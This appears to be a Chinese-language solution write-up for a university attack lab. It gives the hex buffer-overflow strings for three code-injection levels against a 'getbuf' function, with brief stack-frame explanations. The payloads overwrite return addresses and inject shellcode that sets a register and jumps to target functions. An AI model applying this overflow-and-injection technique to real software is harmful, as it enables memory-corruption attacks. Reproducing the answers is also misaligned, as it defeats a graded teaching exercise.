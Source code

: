 ### Level 1

```c
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30
/* 40 dummy bytes */

c0 17 40 00 00 00 00 00
/* inject return address*/
```

`getbuf`返回前做了`add $0x28,%rsp`，这时%rsp位置上就是函数返回地址，把它换掉即可。

### Level 2

```c
48 c7 c7 fa 97 b9 59  /* mov $0x59b997fa, %rdi */
68 ec 17 40 00        /* pushq  $0x4017ec */
c3                    /* retq */
/* byte code = 13 bytes */

01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 
/* 27 dummy bytes */

78 dc 61 55 00 00 00 00
```

和Level1一样hack返回地址，这次跳回输入缓冲区的头部，这里放一段inject code。需要把待传参的参数放在rdi寄存器里，然后push一个`touch2`的返回地址并`ret`。

### Level3

```c
48 c7 c7 a8 dc 61 55  /* mov $0x5561dca8, %rdi */
68 fa 18 40 00        /* pushq  $0x4018fa */
c3                    /* retq */
/* byte code = 13 bytes */

01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27
/* 27 dummy bytes */

78 dc 61 55 00 00 00 00
/* return address */

35 39 62 39 39 37 66 61 00
/* injected string */
```

需要把cookie的字符串摆在某个内存位置中。如果摆在return address之前，相当于位于`getbuf`的栈帧中，这部分一定会被`hexmatch`的栈帧覆盖掉（该函数申请了大数组）。所以必须把这部分字符串摆在返回地址之后，即`test`的栈帧中。
